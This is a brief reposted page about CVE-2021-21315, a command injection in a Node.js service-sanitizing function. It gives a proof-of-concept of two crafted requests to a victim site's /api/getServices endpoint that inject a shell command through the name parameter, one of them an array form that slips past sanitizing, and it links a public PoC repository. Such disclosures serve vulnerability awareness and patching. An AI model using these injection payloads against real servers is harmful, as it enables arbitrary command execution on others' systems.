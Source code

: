 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/IzGmiD20UQxrKbLOdoQE7A) CVE-2021-21315 Node.JS OS sanitize service Parameters Command Injection  
[PoC][Victim Site]/api/getServices?name=$(echo -e 'Sekurak' > pwn.txt)[Victim Site]/api/getServices?name[]=$(echo -e 'Sekurak' > pwn.txt)  

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNZPX7v1seZ4XWgBaHuiaBBPQLsLiafqvm8hibD0je0jJvLLMKFu35SmSJl8YcZf3ADAOTN2ibFgcWBbRg/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

  

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNZPX7v1seZ4XWgBaHuiaBBPQgFwSOiadaZibK3ayVkon4v2GNg8E3bPHQGNPpSKr3icN1VF2Eibtectia3w/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  
https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC